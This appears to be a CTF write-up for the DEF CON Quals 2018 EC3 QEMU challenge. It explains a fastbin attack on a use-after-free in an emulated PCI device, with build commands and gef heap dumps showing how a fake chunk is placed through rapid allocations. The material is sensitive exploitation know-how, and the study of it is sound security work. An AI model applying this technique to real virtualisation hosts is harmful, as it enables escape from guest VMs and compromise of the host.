 ## Compile pcimem
musl-gcc  -static pcimem.c -o pcimem

## repacke fs
find . | cpio -H newc -o > ../initramfs-busybox-x86_64.cpio
gzip initramfs-busybox-x86_64.cpio

WE can use fastbin attack to exploit UAF.

When you debug the program, you'll find it doesn't use the main_arena.
```
gef➤  p (struct malloc_state)*0x7eff88000020
$5 = {
  mutex = 0x0, 
  flags = 0x2, 
  fastbinsY = {0x7eff88441cd0, 0x7eff881fa940, 0x7eff881fa9c0, 0x7eff88441d40, 0x0, 0x7eff88204000, 0x7eff8828e140, 0x0, 0x0, 0x0}, 
  top = 0x7eff8870edf0, 
  last_remainder = 0x7eff881ff7a0, 
  bins = {0x7eff881ff7a0, 0x7eff881ff7a0...
  ......

gef➤  x/10gx 0x1317940
0x1317940:	0x0000000000000000	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007eff881ff480	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
```
We passed the size 100\*8(0x320), making the chunk cut from the unsorted bin at 0x7eff881ff480. So we can satisfy the size check of fastbin malloc. If using the main_arena, I think it's hard to solve this.

After we free the memory, we know the chunk will be added at the first place in the freelist(another debug session). 
```
gef➤  x/16gx 0x1317940
0x1317940:	0x0000000000000000	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f959c24b7d0	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
gef➤  heapinfo
(0x20)     fastbin[0]: 0x7f959c6c24d0 --> 0x7f959c6c2410 --> 0x0
(0x30)     fastbin[1]: 0x7f959c1ef080 --> 0x7f959c1eefc0 --> 0x7f959c1eef00 --> 0x7f959c1eee40 --> 0x7f959c32ecc0 --> 0x7f959c32ec00 --> 0x7f959c6a8ac0 --> 0x7f959c6a8a00 --> 0x7f959c6111c0 --> 0x7f959c1ff700 --> 0x0
(0x40)     fastbin[2]: 0x7f959c1ef100 --> 0x7f959c1ef040 --> 0x7f959c1eef80 --> 0x7f959c1eeec0 --> 0x7f959c32ed40 --> 0x7f959c32ec80 --> 0x7f959c6a8b40 --> 0x7f959c6a8a80 --> 0x7f959c1ff780 --> 0x0
(0x50)     fastbin[3]: 0x7f959c201ca0 --> 0x7f959c201be0 --> 0x7f959c201b20 --> 0x7f959c6c2540 --> 0x7f959c6c2480 --> 0x7f959c611120 --> 0x7f959c611060 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7f959c24b7c0 --> 0x7f959c320f00 --> ......
```
When you allocate another chunk:
```
gef➤  x/16gx 0x1317940
0x1317940:	0x00007f959c22e510	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f959c24b7d0	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
gef➤  heapinfo
(0x20)     fastbin[0]: 0x7f959c6c24d0 --> 0x7f959c6c2410 --> 0x0
(0x30)     fastbin[1]: 0x7f959c1ef080 --> 0x7f959c1eefc0 --> 0x7f959c1eef00 --> 0x7f959c1eee40 --> 0x7f959c32ecc0 --> 0x7f959c32ec00 --> 0x7f959c6a8ac0 --> 0x7f959c6a8a00 --> 0x7f959c6111c0 --> 0x7f959c1ff700 --> 0x0
(0x40)     fastbin[2]: 0x7f959c1ef100 --> 0x7f959c1ef040 --> 0x7f959c1eef80 --> 0x7f959c1eeec0 --> 0x7f959c32ed40 --> 0x7f959c32ec80 --> 0x7f959c6a8b40 --> 0x7f959c6a8a80 --> 0x7f959c1ff780 --> 0x0
(0x50)     fastbin[3]: 0x7f959c201ca0 --> 0x7f959c201be0 --> 0x7f959c201b20 --> 0x7f959c6c2540 --> 0x7f959c6c2480 --> 0x7f959c611120 --> 0x7f959c611060 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7f959c22e440 --> 0x7f959c347940 --> 0x7f959c347880 --> 0x7f959c3477c0 --> 0x7f959c347700 --> 0x7f959c347640 --> 0x7f959c1f4140 --> 0x7f959c1f4080 --> 0x7f959c1f3fc0 --> 0x7f959c1f3f00 --> 0x7f959c1f3e40 --> 0x7f959c5f4540 --> 0x7f959c5f4480 --> 0x7f959c5f43c0 --> 0x7f959c5f4300 --> 0x7f959c5f4240 --> 0x7f959c1d1b40 --> 0x7f959c1d1a80 --> 0x7f959c1d19c0 --> 0x7f959c1d1900 --> 0x7f959c1d1840 --> 0x7f959c321140 --> 0x7f959c321080 --> 0x7f959c320fc0 --> 0x7f959c24b7c0 --> 0x131796d (size error (0x78)) --> 0x0
```
See? We can't control it. After I see the wp from [here](https://uaf.io/exploitation/2018/05/13/DefconQuals-2018-EC3.html), I get the point: Qemu will often allocate our fake chunk somewhere before us if we take too much time or it will free a bunch of other same sized buffers which will move our fake pointer from the top of the free list. You must overcome this by allocating multi chunks continuously and quickly, and if you debug the program, you can't get the fake pointer I guess.

```
gef➤  x/16gx 0x1317940
0x1317940:	0x00007f0ec83bb050	0x00007f0ec8198c90
0x1317950:	0x000000000131797d	0x00007f0ec8328a80
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f0ec8198c90	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
```

The tech is interesting, just like heap spray a little. And it's more practical in real exploit.